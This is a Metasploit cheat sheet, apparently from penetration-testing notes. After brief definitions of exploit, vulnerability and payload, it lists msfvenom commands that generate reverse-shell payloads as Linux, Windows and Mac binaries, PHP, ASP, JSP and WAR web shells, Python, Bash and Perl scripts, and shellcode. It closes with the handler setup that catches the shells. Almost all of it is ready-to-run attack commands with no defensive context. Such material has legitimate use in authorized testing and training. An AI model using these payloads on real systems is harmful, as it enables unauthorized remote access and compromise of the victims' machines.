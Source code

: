 # Metasploit [link](https://netsec.ws/?p=331)

- Exploit
    - A piece of code that uses a vulnerability present on the target system.

- Vulnerability
    - A design, coding, or logic flaw affecting the target system. The exploitation of a vulnerability can result in disclosing confidential information or allowing the attacker to execute code on the target system.

- Payload
    - An exploit will take advantage of a vulnerability. However, if we want the exploit to have the result we want (gaining access to the target system, read confidential information, etc.), we need to use a payload. Payloads are the code that will run on the target system.


```
msfinit

msfconsole
```


## List payloads
```
msfvenom -l
```

## Binaries

### Linux
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

### Windows
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```

### Mac
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```

## Web Payloads

### PHP
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

### ASP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```

### JSP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

### WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

## Scripting Payloads

### Python
```
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```

### Bash
```
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```

### Perl
```
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

## Shellcode

### Linux Based Shellcode
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

### Windows Based Shellcode
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

### Mac Based Shellcode
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

## Creating Metasploit Payloads
```
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z
```
